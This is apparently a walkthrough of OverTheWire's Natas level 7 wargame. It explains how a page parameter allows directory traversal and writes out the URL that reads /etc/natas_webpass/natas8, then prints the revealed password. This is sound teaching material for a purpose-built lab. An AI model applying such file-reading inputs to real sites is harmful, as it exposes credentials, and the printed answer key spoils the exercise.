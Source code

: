 `Link` : `https://overthewire.org/wargames/natas/natas7.html`
## [𝐖𝐚𝐥𝐤𝐭𝐡𝐫𝐨𝐮𝐠𝐡] ~ 𝐍𝐚𝐭𝐚𝐬 𝐋𝐞𝐯𝐞𝐥 𝟔 - 𝐋𝐞𝐯𝐞𝐥 𝟕

## 𝐆𝐢𝐯𝐞𝐧
- Username: natas7
- URL:      `http://natas7.natas.labs.overthewire.org`

## 𝐒𝐨𝐥𝐮𝐭𝐢𝐨𝐧

- Visit: `http://natas7.natas.labs.overthewire.org`
- Click links! Notice: `index.php?page=<something>`
- We got the hint, directory traversal is possible using page! Now we need to know the path where password is stored.
- Let's view page source!

```
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
this is the about page

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
```
- Notice: `<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->`
- Visit: `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`
- Boom!

<div align=center>
  <img src=https://user-images.githubusercontent.com/68887544/148734169-3a663e55-1799-4482-b443-75c45d1a8dbe.png width=500px>
</div>

- `DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe `
